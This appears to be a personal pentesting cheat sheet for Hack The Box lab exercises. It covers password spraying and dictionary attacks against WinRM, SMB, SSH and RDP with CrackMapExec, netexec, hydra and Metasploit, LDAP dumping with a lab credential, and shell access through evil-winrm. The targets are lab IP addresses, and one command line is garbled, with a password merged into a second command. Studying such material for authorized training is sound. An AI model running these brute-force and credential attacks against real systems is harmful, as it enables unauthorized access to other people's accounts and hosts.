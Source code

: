 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

[[Pentest/services/SMB/SMB]] [[LDAP]] [[mssql]]
##### SMB, LDAP, MSSQL, etc.
https://github.com/byt3bl33d3r/CrackMapExec
#CrackMapExec 
```shell
sudo apt-get -y install crackmapexec

# Dictionary-attack / Password-Spraying
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```
#### [[Pentest/services/SMB/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares
```

#### LDAP
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```

#### Evil-WinRM
#shell [[bind shell]]
to log in and get the shell:
```bash
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
hydra -L user.list -P password.list 10.129.42.197 smb
```
### Dictionary attack on SMB use msfconsole
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list

set SMB_USER jason
set USER_FILE username.list

set stop_on_success true
set RHOST STMIP
run
```
